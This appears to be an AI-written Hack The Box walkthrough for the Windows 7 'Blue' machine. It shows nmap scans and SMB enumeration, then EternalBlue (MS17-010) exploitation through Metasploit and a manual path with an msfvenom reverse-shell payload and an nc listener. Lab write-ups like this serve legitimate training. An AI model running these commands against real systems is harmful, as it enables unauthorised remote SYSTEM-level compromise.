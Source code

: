 # 🧊 HTB: Blue Walkthrough

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **OS**: Windows 7 Professional SP1 (x64)
- **Exploit**: MS17-010 (ETERNALBLUE)
- **Privilege Escalation**: Not needed – initial shell is SYSTEM 🎯

---

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.40
```

### 🎯 Targeted Script & Version Detection
```bash
nmap -p 135,139,445 -sCV -oA scans/nmap-tcpscripts 10.10.10.40
```

**Open Ports:**
- `135` (MS RPC)
- `139` (NetBIOS)
- `445` [SMB](SMB)
- Several in `49152-49157`

### 🛑 Vulnerability Check for MS17-010
```bash
nmap -p 445 --script vuln -oA scans/nmap-smbvulns 10.10.10.40
```

Output confirms:
```
VULNERABLE: Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

---

## 📁 SMB Enumeration

### 🧭 Guest Enumeration
```bash
smbmap -H 10.10.10.40 -u "0xdf" -p "0xdf"
```

### 🔎 Check Shares with `smbclient`
```bash
smbclient //10.10.10.40/share
smbclient //10.10.10.40/users
```

> Both readable, but no interesting files – just default folders.

---

## 💣 Exploitation – EternalBlue via Metasploit

### 🚀 Use Exploit Module
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.14
run
```

> ✅ Successful shell as `NT AUTHORITY\SYSTEM`

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 🔄 Drop to Shell
```bash
meterpreter > shell
```

---

## 🏁 Flags

```bash
C:\Users\haris\Desktop> type user.txt
4c546aea************************

C:\Users\Administrator\Desktop> type root.txt
ff548eb7************************
```

---

## 🐍 Optional – Exploit with Python (for OSCP-like scenarios)

### ⚙️ Setup Python2 VirtualEnv for Impacket
```bash
sudo apt install virtualenv
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
pip install -r requirements.txt
pip install .
```

### 📦 Payload Generation
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
```

### 📤 Exploit Execution
```bash
python send_and_execute.py 10.10.10.40 rev.exe
```

### 🎧 Catch the Shell
```bash
rlwrap nc -lnvp 443
```

---

## 🧠 Lessons Learned

- MS17-010 is still widely useful in legacy environments.
- Metasploit is stable for this exploit, but Python tools offer good practice for manual setups.
- Always check for anonymous access and vulnerable SMB services.
- No privilege escalation needed: initial shell is SYSTEM.

---

Let me know if you'd like this exported as a Markdown or PDF report, or if you'd like to chain all walkthroughs into one HTB notebook! 📘💼